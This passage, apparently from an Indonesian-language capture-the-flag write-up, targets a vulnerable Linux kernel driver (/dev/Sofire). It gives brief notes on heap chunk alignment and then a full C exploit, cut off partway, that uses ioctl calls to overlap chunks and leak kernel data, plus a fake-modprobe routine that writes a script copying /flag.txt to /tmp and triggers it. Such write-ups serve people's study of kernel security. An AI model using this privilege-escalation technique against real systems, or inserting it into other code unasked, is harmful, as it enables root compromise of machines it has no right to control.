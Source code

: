 * Chunk yang dioverlap tetap harus align pada 0x100. Terkadang tetap gabisa, tapi jika tidak align, DIPASTIKAN tidak bisa.
* Alokasinya sedikit random jadi leaknya gak 100% konsisten. Exploitku berhasil kira2 1/10 kali lah

Berikut script yang lengkap:
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CHUNK_SIZE 0x100

typedef struct request{
    int idx;
    char buffer[CHUNK_SIZE];
} request;

void get_flag(void){
    puts("[*] Returned to userland, setting up for fake modprobe");
    
    system("echo '#!/bin/sh\ncp /flag.txt /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[*] Run unknown file");
    system("/tmp/dummy");

    puts("[*] Hopefully flag is readable");
}

int main(int argc, char *argv[])
{
    puts("ASDF");
    int global_fd = open("/dev/Sofire", O_RDONLY);
    request data;
    data.idx = 0;
    strncpy(data.buffer, "AAAA", CHUNK_SIZE);
    int a = ioctl(global_fd, 0xdeadbeef, &data);   
    strncpy(data.buffer, "BBBB", CHUNK_SIZE); 
    a = ioctl(global_fd, 0xdeadbeef, &data);   
    strncpy(data.buffer, "CCCC", CHUNK_SIZE);  
    a = ioctl(global_fd, 0xdeadbeef, &data);
    a = ioctl(global_fd, 0x1337, &data);

    unsigned long long *p = &data.buffer;
    data.idx = 0;
    a = ioctl(global_fd, 0xcafebabe, &data);
    unsigned long long leak0 = p[CHUNK_SIZE / 8 - 1];
    data.idx = 2;
```